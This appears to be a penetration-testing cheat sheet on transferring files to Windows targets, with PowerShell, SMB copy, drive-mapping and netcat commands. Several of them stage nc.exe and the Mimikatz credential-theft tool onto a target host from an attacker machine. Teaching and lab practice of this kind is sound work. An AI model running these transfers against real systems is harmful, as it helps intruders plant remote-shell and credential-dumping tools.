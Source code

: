 ## PowerShell
### Copy-Item
````powershell
Copy-Item -Path C:\Temp\nc.exe -Destination C:\Temp\nc.exe -ToSession $session
````
### Set-Content
````powershell
$file = Get-Content C:\Temp\nc.exe -Raw
Invoke-Command -ComputerName 10.10.10.132 -ScriptBlock {Set-Content -Path C:\Temp\nc.exe -value $using:file}
````
### Copy / xcopy / robocopy
````powershell
xcopy \\10.10.10.132\share\nc.exe nc.exe
copy C:\Temp\nc.exe \\10.10.10.132\c$\Temp\nc.exe
````
### Map / Mount Drives
````powershell
net use Q: \\10.10.10.132\share
pushd \\10.10.10.132\share
mklink /D share \\10.10.10.132\share
````
## Map / Mount Drives
````powershell
smbclient //10.10.10.132/share -U username -W domain
````
## Netcat
Netcat is a very versatile tool that also allows file transfers. The target or attacking machine can be used to initiate the connection, which is useful if a firewall prevents access to the target. The commands below both result in Mimikatz being transferred to the target computer.

### Connection Initiated by Pentester
````bash
nc -nlvp 8000 > mimikatz.exe
````
### Connection Initiated by Pentester
````bash
nc -nv 10.10.10.132 8000 <mimikatz.exe
````
### Connection Initiated by Target
````bash
nc -nv 10.10.10.32 8000 > mimikatz.exe
````
### Connection Initiated by Target
````bash
nc -nlvp 8000 <mimikatz.exe
````
